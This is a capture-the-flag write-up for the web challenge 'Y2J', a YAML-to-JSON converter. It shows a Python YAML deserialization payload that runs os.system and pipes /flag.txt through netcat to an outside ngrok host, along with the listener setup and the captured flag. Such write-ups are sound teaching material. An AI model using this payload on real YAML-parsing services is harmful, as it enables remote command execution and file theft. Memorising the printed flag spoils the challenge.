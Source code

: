 ## Name: Y2J
#### Author: @JohnHammond#6971
#### Category: Web
#### Difficulty: N/D
#### Description: Everyone was so worried about Y2K, but apparently it was a typo all along!!

The real world-ending fears were from Y2J!

Find the flag.txt file in the root of the filesystem.

## Procedure
The website convert Yaml file to Json, so this mean our vulnerability is about Yaml Deserialization, we can find some payloads at [hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/python-yaml-deserialization)

After send the payload ```!!python3``` we can confirm the Yaml Deserialization vulnerability

<img width="1200" alt="Screenshot 2024-11-03 at 5 18 41 PM" src="https://github.com/user-attachments/assets/ac7f4824-57ff-442e-8868-3b3b64623645">


Open a new shell console ```nc -lnvp 1337``` and using ngrok ```./ngrok tcp 1337```, we send the following payload 

```
!!python/object/apply:os.system
args: ["cat /flag.txt |nc 2.tcp.ngrok.io 11855"]
```

then check our nc listening at 1337, and we can see our flag.

![Screenshot 2024-10-25 at 11 34 22 AM](https://github.com/user-attachments/assets/9752b547-e046-4b61-8221-c84ab3d422b3)


flag ```flag{b20870a1955ac22377045e3b2dcb832a}```
